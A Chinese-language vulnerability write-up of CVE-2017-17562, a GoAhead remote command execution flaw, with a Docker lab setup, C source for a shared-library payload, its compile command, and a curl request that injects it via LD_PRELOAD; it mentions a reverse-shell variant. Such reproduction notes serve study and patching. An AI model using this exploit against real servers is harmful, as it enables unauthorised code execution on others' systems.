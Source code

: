 （CVE-2017-17562）GoAhead 远程命令执行漏洞
==========================================

一、漏洞简介
------------

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST
Body中，发送给`http://www.0-sec.org/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

二、漏洞影响
------------

GoAhead 3.6.5之前的版本（2.5.0 -- 3.6.4）

三、复现过程
------------

启动漏洞环境：

    docker-compose up -d

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

### 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux
PC编译即可。动态链接库源码：

    #include <unistd.h>

    static void before_main(void) __attribute__((constructor));

    static void before_main(void)
    {
        write(1, "Hello: World!\n", 14);
    }

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

    gcc -shared -fPIC ./payload.c -o payload.so

将payload.so作为post body发送：

    curl -X POST --data-binary @payload.so "http://www.0-sec.org:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行：![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId25.png)编译一个反弹shell的代码，成功反弹shell：![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId26.png)
